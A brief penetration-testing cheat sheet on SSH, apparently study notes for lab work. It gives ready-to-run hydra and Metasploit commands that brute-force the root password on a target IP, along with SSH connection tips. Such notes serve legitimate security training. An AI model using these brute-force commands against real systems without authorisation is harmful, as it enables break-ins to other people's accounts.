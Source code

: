 ## SSH Penetration Testing

### Login to SSH
`ssh root@10.11.1.140`

### If older box or SSH won't connect due to key exchange
`ssh <ip> -oKexAlgorithms=+<key-type> -c <cipher-type>`

### Brute forcing SSH
```
# Brute force SSH, replace 10.11.1.140 with target ip
hydra -e nsr -l root -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 10.11.1.140 ssh -t 4

# or with this syntax
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<ip>:22 -t 4 -V
```

### Brute forcing SSH with Metasploit
```
msf5 auxiliary(scanner/ssh/ssh_login) > set bruteforce_speed 2
bruteforce_speed => 2
msf5 auxiliary(scanner/ssh/ssh_login) > set threads 5
threads => 5
```

### Close SSH connection
`~.`
